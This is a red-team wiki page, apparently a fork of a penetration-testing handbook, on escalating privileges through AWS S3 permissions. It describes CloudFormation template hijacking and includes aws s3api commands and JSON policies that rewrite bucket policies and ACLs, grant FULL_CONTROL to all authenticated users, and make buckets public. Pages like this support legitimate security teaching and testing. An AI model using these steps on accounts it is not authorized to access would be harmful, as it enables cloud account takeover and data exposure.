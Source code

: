 # AWS - S3 Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

An attacker with those permissions over interesting buckets might be able to hijack resources and escalate privileges.

For example, an attacker with those **permissions over a cloudformation bucket** called "cf-templates-nohnwfax6a6i-us-east-1" will be able to hijack the deployment. The access can be given with the following policy:

```json
{
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Action":[
                "s3:PutBucketNotification",
                "s3:GetBucketNotification",
                "s3:PutObject",
                "s3:GetObject"],
            "Resource":[
                "arn:aws:s3:::cf-templates-*\/*",
                "arn:aws:s3:::cf-templates-*"]
        },
        {
            "Effect":"Allow",
            "Action":"s3:ListAllMyBuckets",
            "Resource":"*"
        }]
    }
```

And the hijack is possible because there is a **small time window from the moment the template is uploaded** to the bucket to the moment the **template is deployed**. An attacker might just create a **lambda function** in his account that will **trigger when a bucket notification is sent**, and **hijacks** the **content** of that **bucket**.

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) can be used to automate this attack.\
For mor informatino check the original research: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

These are the permissions to **get and upload objects to S3**. Several services inside AWS (and outside of it) use S3 storage to store **config files**.\
An attacker with **read access** to them might find **sensitive information** on them.\
An attacker with **write access** to them could **modify the data to abuse some service and try to escalate privileges**.\
These are some examples:

* If an EC2 instance is storing the **user data in a S3 bucket**, an attacker could modify it to **execute arbitrary code inside the EC2 instance**.

### `s3:PutBucketPolicy`

An attacker, that needs to be **from the same account**, if not  the error `The specified method is not allowed will trigger`,  with this permission will be able to grant himself more permissions over the bucket(s) allowing him to read, write, modify, delete and expose buckets.

```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
    "Id": "Policy1568185116930",
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:root"
            },
            "Action":"s3:ListBucket",
            "Resource":"arn:aws:s3:::somebucketname"
        },
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:user/username"
            },
            "Action":"s3:*",
            "Resource":"arn:aws:s3:::somebucketname/*"
        }
    ]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

### `s3:GetBucketAcl`, `s3:PutBucketAcl`

An attacker could abuse these permissions to **grant him more access** over specific buckets.\
Note that the attacker doesn't need to be from the same account. Moreover the write access

```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectAcl`

An attacker could abuse these permissions to grant him more access over specific objects inside buckets.

```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag 
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

An attacker with these privileges is expected to be able to put an Acl to an specific object version

```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
